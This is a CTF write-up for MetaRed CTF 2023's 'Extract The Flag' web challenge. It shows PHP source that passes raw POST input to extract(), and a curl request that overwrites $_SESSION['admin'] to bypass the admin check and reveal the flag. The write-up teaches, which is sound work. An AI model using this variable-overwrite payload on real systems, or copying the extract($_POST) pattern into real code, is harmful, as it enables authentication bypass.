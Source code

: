 ```yaml
---
title: MetaRed CTF 2023 - Extract The Flag
date: Thu Oct 26 03:46:38 PM +04 2023
categories: [Writeup]
tags: [ctf,metaredctf,metaredctf2023,web,php]
---
```


## Description

\<No Description After CTF Ended...\>

[Challenge](https://extracttheflag.ctf.cert.unlp.edu.ar/)<br>
[Source](https://extracttheflag.ctf.cert.unlp.edu.ar/?src)

## Solution

```php
<?php
if (isset($_GET['src'])) {
    highlight_file(__FILE__);
    die();
}

error_reporting(0);
include_once 'flag.php';
session_start();
$_SESSION['admin'] = false;
extract($_POST);
?>
...
<div class="row">
    <div class="card">
        <h4>Flag</h4>
        <!-- admin content -->
        <?php
        if (isset($_SESSION['admin'])) {
            if ($_SESSION['admin']) {
                echo "Your flag: " . $flag;
                echo "<br>";
            }
        }
        ?>
    </div>
</div>
...
```

The vulnaribility with given php code is **[extract](https://www.php.net/manual/en/function.extract.php)**. Basically if you pass array such as `[name=>Ryan]`,after `extract` you will have access to variable named `name` with value `Ryan`. This introduces vulnaribility because we can also overwrite variables.

```bash
➜ curl -X POST 'https://extracttheflag.ctf.cert.unlp.edu.ar/' -d "_SESSION[admin]=true"
...
<div class="row">
    <div class="card">
        <h4>Flag</h4>
        <!-- admin content -->
        Your flag: flag{PhP_Th4nks_for_all!}<br>
    </div>
</div>
...
```

> Flag: flag{PhP_Th4nks_for_all!}
{: .prompt-tip }